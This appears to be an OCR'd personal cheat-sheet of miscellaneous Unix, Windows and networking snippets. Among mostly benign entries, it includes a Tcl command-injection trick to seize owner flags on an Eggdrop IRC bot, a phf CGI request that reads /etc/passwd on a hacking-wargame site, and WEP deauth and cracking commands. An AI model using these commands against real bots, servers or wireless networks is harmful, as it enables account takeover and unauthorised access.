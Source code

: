 sfdisk -l -uS imagefile

mount -oloop,offset=4711 imagefile /mnt/point

nolmhash

bind ctcr - PING ctcr:pingreply
proc ctcr:pingreply {nick uhost hand dest key arg} {
set dur [expr [unixtime] - $arg]
putserv \"NOTICE $nick :Your ping reply took $dur seconds\" }
/ctcpreply <botname> PING [ adduser <yournick> *!<you>@<yourhostmask> * ]
/ctcpreply <botname> PING [ chattr <yournick> +nm ]
/msg <botname> pass <password>
/dcc chat <botname>

http://www.try2hack.nl/cgi-bin/phf?Qalias=x%0a/bin/cat%20/etc/passwd




ARP REPLAY: aireplay -3 -b <AP> -h <CLIENT> (-x <PPS>) ath0
DEAUTH:   aireplay -0 1 -a <AP> -c <CLIENT> ath0

-ng commands:
sniff:
    airodump-ng ath0
sniff on channel 11 and dump:
    airodump-ng -c 11 -w dump ath0
test if injection works:
    aireplay-ng --fakeauth 0 -e ESSID -a BSSID -h YOUR_MAC ath0
start arp replay:
    aireplay-ng --arpreplay -b BSSID -h CONNECTED_CLIENT ath0
force clients to reconnect:
    aireplay-ng --deauth 5 -a BSSID -c CONNECTED_CLIENT ath0
crack:
    aircrack-ng -b BSSID dump-01.cap


GetProcAddress(LoadLibrary("powrprof.dll"), "SetSuspendState")(TRUE,TRUE,TRUE);


javascript:R=0; x1=.1; y1=.05; x2=.25; y2=.24; x3=1.6; y3=.24;x4=300; y4=200; x5=300; y5=200; DI=document.images; DIL=DI.length;function A(){for(i=0; i<DIL; i++){DIS=DI[ i ].style;DIS.position='absolute'; DIS.left=Math.sin(R*x1+i*x2+x3)*x4+x5;DIS.top=Math.cos(R*y1+i*y2+y3)*y4+y5}R++ }setInterval('A()',5); void(0)


sleep 10; xwd -root |xwdtopnm |pnmtojpeg --quality 100 >~/dumps/`date +%Y%m%d%H%M%S`.jpg


dd if=filename of=/dev/fd0 bs=1024 conv=sync ; sync


tftp
 binary
 trace
put openwrt-brcm-2.4-squashfs.trx
openwrt-wrt54g-squashfs.bin


NoDriveTypeAutoRun -> ff

